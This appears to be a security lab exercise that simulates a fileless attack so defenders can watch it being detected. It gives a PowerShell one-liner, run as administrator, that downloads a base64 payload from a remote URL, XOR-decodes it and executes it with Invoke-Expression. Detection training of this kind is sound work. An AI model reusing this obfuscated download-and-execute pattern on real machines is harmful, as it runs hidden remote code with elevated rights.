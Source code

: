 ### Fileless Attack Incident

## Task 1 - Generating the incident

1. Switch to the client machine
2. Run Windows Powershell as administrator
3. Copy and paste the following text into the PowerShell window and press Enter to run
```console
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
4. Wait for the script to finish running. Notepad should open which you can close manually
![PowerShell Prompt](..//Images/PScode.png)